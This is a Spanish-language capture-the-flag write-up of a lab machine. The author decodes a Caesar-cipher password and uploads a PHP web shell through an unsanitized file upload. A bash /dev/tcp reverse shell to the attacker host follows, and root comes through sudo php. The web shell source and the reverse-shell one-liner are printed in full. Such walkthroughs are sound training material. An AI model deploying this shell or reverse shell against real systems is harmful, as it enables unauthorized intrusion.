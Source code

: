 Fecha: 03/08/2024
Empiezo escaneando la máquina: 
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240903165012.png)
Por lo que parece tiene tanto http en el puerto 80 como https en el 443. Hay un fichero llamado backup.txt, que voy a ojear: 
![](imágenes/Pasted%20image%2020240903165118.png)
Da la contraseña para el usuario `mateo`, que está cifrada con Caesar (que consiste en sumar el valor de una letra a n y luego hacer módulo del mismo). 

Usaré un script similar al que creé para resolver el reto [credstuff](../../picoCTF/Cryptography/Medium/credstuff/credstuff.md) de picoCTF:

```python
import string
letras_minusculas = list(string.ascii_lowercase)

entrada = "hdvbfuadcb"

n_letras = len(letras_minusculas)

for i in range(n_letras):
    salida = ""
    for caracter in entrada:
        salida += letras_minusculas[(letras_minusculas.index(caracter)+i)%n_letras]
    print(salida)
```

De entre todas las salidas la más legible es "easycrxazy", así que probaré con esa primero (cuando sepa donde usarla, claro).

Cuando accedo por https veo que es un "blog" al que los usuarios pueden subir archivos. De momento, hay un "post1.txt" subido, así que pruebo a intentar subir archivos. Pruebo a subir otros "txts" y funciona: 

![](imágenes/Pasted%20image%2020240903170512.png)

Usaré fuzzing para encontrar el path a los archivos, y ver si podré hacer un local file inclusion:
```bash 
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u https://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

Hay un directorio uploads, en el que se encuentran los archivos:

![](imágenes/Pasted%20image%2020240903170750.png)
![](imágenes/Pasted%20image%2020240903170818.png)

Intentaré subir una command line de php como la usada en la máquina "Dockerlabs":
#TODO insertar enlace cuando separe las máquinas por ficheros
```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
Simplemente me descargo el código del repositorio y lo meto en el archivo "shell.php". Por lo que parece la subida de archivos no está sanitizada, ya que me permite subirlo directamente: 

![](imágenes/Pasted%20image%2020240903171242.png)

Desde la misma me haré una reverse shell a mi máquina:
```bash
# En la shell virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```


![](imágenes/Pasted%20image%2020240903172228.png)

Tras probar con todas las contraseñas, intento a quitar la x, que me resultaba rara:

![](imágenes/Pasted%20image%2020240903172340.png)

Veo que puedo usar php como superusuario, así que compruebo https://gtfobins.github.io/gtfobins/php/#sudo, de forma exitosa:

![](imágenes/Pasted%20image%2020240903172435.png)

